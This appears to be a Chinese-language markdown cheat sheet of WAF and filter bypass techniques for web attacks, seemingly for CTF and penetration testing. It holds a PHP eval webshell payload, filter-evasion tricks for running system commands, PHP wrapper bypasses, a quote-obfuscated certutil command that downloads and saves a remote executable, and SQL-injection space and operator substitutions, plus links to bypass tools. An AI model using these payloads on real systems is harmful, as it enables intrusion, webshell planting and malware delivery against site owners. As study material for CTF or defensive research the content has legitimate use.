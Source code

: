 # Web bypass

- [Bypass Linux Shell Restrictions](#linux-shell-bypass)
- 空格绕过 `a=system ('cat /flag');`
- 大小写绕过
- %0a 绕过
- unicode 绕过, `t => \u0074`
- ~ 反码绕过
- [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
- splstack 绕过匹配 O 开头的序列化数据； [2023 安洵杯 4 号的罗纳尔多](https://mp.weixin.qq.com/s/azbY19cBgs3MgVdo7i-OhQ)
- \_\_halt_compiler();来结束 php 代码执行流程 同上链接
- [详细|waf 绕过学习](https://mp.weixin.qq.com/s/OeZsKohqe87-ieIuW7L9tA)

[实战绕过某 WAF+拿 shell 组合拳](https://mp.weixin.qq.com/s/Q57dOjq279kqOFtSA1mV8Q)
[webshell 检测算法实践](https://mp.weixin.qq.com/s/M4umpduFCI50zOO-5080cw)

| bypass | payload                                                |     |
| ------ | ------------------------------------------------------ | --- |
| <?     | `<script language="php">@eval($\_POST['1']);</script>` |     |

## bypass filter_var($url, FILTER_VALIDATE_URL)

`?url=http://`

## bypass file_get_contents($text,'r')==="welcome to the zjctf"

`?text=data://test/plain,welcome&file=php://filter/resource=useless.php`

# Cmd bypass

```sh
c""""e""""r""""t""""u""""t""""i""""l.exe -urlcache -split -f http://ip/6666.exe 6666.exe

copy /b 1.jpg+2.jpg 3 /y

```

# Linux shell bypass

[Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)

# Sql bypass

- https://github.com/Xyntax/waf-bypass/blob/master/payload/sql.txt
- https://lexsd6.github.io/2021/01/31/%E5%85%B3%E4%BA%8Esql%E6%B3%A8%E5%85%A5bypass%E6%80%BB%E7%BB%93/#%E6%96%B9%E6%B3%95%E6%9B%BF%E6%8D%A2%E7%BB%95%E8%BF%87
- [sql 注入 bypass waf 工具（1 月 18 日更新）](https://mp.weixin.qq.com/s/qritLmRwP-Q5OLskxNWSVw)
- [Sql 注入过安全狗](https://mp.weixin.qq.com/s/Ighou2aYORZ7rGvJfpeeHg)

| bypass |             |                                               |
| ------ | ----------- | --------------------------------------------- |
| 大小写 |             |                                               |
| =      | like/regexp |  <> 等价于 !=                                             |
| 空格   | /\*\*/ 或 + | php 可用 %09、%0A、 %0B、 %0C、 %0D、%A0、%20 <br>and/or后面可以跟上偶数个!、~可以替代空格 <br>and/or前的空格可用省略. <br>'后空格可省略 |
|        |             |                                               |

